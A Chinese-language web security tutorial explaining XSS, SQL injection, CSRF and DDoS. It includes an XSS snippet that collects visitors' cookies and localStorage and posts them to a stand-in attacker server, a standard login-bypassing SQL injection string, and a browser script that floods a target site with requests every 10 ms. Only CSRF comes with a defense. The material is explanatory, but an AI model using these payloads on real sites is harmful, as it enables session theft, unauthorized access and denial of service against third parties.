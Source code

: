 #Web安全機制

## #XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](/assets/螢幕快照 2017-02-02 下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie;
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:
```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```


## #SQL Injection



```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";

```
將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A

## #CSRF(Cross-site request forgery) 

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上传</button>
</form>
```

## #DDos(distributed denial-of-service attack)

中文為:分散式阻斷服務攻擊

假設我們寫如下程式
```
function imgflood() {  
  var TARGET = 'test.website.com'
  var URI = '/picture?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```
之後瀏覽此網頁的使用者將會每0.01秒產生一個request到目標網站

所以不知情的使用者如果點選了我們的網站，他也會加入對目標網站攻擊的行列



